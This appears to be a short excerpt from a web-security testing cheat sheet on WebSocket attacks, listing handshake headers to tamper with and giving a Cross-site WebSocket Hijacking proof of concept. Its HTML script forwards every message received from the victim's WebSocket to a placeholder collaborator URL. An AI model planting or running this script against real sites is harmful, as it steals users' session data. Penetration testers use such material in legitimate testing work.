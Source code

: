 WebSockets is a common vector for normal web application attacks like XSS, SQL Injection...
- [ ] Manipulate WebSocket Connection Handshake
```
X-Forwarded-For
X-Forwarded-Host
```
### Cross-site WebSocket Hijacking
CSRF for WebSocket.
```html
<script> var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { 
	ws.send("THIS IS A MESSAGE"); // Send starting message 
};
ws.onmessage = function(event) { // Listener to receive message send to collaborator
	fetch('https://your-collaborator-url', {
		method: 'POST', 
		mode: 'no-cors', 
		body: event.data
		}); 
};
</script>
```
